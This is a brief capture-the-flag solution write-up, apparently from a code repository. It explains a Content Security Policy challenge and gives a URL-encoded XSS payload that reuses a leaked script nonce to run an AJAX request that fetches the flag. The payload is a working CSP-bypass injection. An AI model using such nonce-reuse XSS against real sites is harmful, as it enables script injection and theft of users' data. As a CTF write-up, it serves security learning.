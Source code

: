 ## Solution

Challenge based on playing with Content Security Policy header

Solution is XSS with found but blocked script from other endpoint
You need to include here nonce to bypass CSP

```
<domain_name>/Never_gonna_say_goodbye.html?a=%3Cscript%20nonce%3D%22JIYr435smMmKG1nAAFNlrKUewAEaTWt1%22%3E%20$.ajax({%20%20%20url:%20%22flag.php%22,%20%20%20headers:%20{%20%20%20%20%20%22Nonce%22:%22JIYr435smMmKG1nAAFNlrKUewAEaTWt1%22%20%20%20},%20%20%20success:%20function(result){%20%20%20%20console.log(result);%20%20%20%20%20%20}});%20%3C/script%3E
```
